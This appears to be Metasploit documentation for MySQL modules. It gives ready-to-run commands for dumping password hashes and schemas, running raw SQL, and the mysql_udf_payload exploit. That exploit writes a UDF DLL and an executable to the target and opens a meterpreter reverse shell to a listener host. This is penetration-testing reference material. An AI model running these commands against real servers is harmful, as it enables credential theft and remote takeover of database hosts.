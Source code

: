 ### MySQL Dumping

User and hash dump:

```
use auxiliary/scanner/mysql/mysql_hashdump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

Schema dump:

```
use auxiliary/scanner/mysql/mysql_schemadump
run 'mysql://root: a b c p4$$w0rd@127.0.0.1'
```

### MySQL Querying

Execute raw SQL:

```
use admin/mysql/mysql_sql
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' sql='select version()'
```

### MySQL Reverse Shell

This module creates and enables a custom UDF (user defined function) on the target host via the `SELECT ... into DUMPFILE` method of binary injection. On default Microsoft Windows installations of MySQL (=< 5.5.9), directory write permissions not enforced, and the MySQL service runs as LocalSystem.

For this to work successfully:

1. `secure_file_priv`, a mysql setting, must be changed from the default to allow writing to MySQL's plugins folder
2. On Ubuntu, apparmor needs a bunch of exceptions added, or to be disabled. Equivalents on other linux systems most likely need the same
3. The MySQL plugin folder must be writable

NOTE: This module will leave a payload executable on the target system when the attack is finished, as well as the UDF DLL, and will define or redefine `sys_eval()` and `sys_exec()` functions. Usage:

```
use multi/mysql/mysql_udf_payload
run 'mysql://root: a b c p4$$w0rd@127.0.0.1' lhost=192.168.123.1 target=Linux payload=linux/x86/meterpreter/reverse_tcp
```
